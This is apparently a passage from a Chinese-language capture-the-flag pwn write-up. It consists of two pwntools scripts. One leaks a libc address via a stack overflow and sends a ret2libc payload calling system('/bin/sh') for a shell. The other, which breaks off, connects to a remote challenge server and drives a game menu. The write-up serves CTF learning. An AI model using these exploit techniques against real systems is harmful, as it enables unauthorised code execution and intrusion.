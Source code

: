```
    if i==4:
        break
    #raw_input()
    #if()
 
#gdb.attach(p,"b *0x8048F02")
#p.recvuntil('ame:')
data='a'*0x48+'a'*4+p32(0x8048670)+p32(0x8048EC7)+p32(0x804B01C)
p.sendline(data)
print p.recvuntil('welcome\n')
zz=p.recvuntil('\xf7')
print len(zz),hex(u32(zz[0:4]))
print zz

chdir_addr=u32(zz[-4:])
print hex(chdir_addr)
 
libc_base=chdir_addr-libc.symbols['chdir']
     
print hex(libc_base)
system_addr=libc_base+libc.symbols['system']
bin_sh_addr=libc_base+next(libc.search('/bin/sh'))
payload = 'a'*(0x48+4) + p32(system_addr) + p32(0x80488A8) + p32(bin_sh_addr)
p.recvuntil("name")
p.sendline(payload)
p.interactive()
```

同时运行加血exp

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from ctypes import *

context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
DEBUG = 0
if DEBUG:
    p = process('./play')
    #p = process(['./play'], env={'LD_PRELOAD': os.path.join(os.getcwd(),'libc.so.6')})
    #context.log_level = 'debug'
    #libc = ELF('libc.so.6')#libc.so.6   #/lib/x86_64-linux-gnu/libc-2.24.so
else:
    p = remote('111.198.29.45',31012)
    #libc = ELF('libc.so.6')
 
p.recvuntil('login:')
p.sendline('bsauce')
 
def hacking():
 p.recvuntil('choice>> ')
 p.send('1\n')
 p.recvuntil('(1:yes/0:no):')
 p.send('1\n')
 
def change_host():
 p.recvuntil('choice>> ')
 p.send('2\n')
 
def change_methods():
 p.recvuntil('choice>> ')
 p.send('3\n')
 p.recvuntil('choice>> ')
```